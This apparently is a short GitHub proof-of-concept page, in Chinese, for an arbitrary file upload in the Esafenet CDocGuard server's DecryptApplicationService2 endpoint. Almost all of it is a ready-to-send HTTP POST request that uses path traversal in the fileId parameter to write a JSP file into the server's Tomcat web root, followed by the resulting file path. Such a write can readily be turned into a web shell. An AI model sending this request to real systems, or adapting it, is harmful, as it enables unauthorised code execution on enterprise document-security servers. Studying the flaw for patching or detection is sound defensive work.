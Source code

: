 ## 亿赛通DecryptApplicationService2接口任意文件上传


## poc
```
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP：PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```

![351d9a1a384e83606b16d3e456e3e212](https://github.com/wy876/POC/assets/139549762/cd8b5019-1f4d-45e1-b89c-68ec7ad6ec74)

文件地址：`/CDGServer3/pentest.jsp`
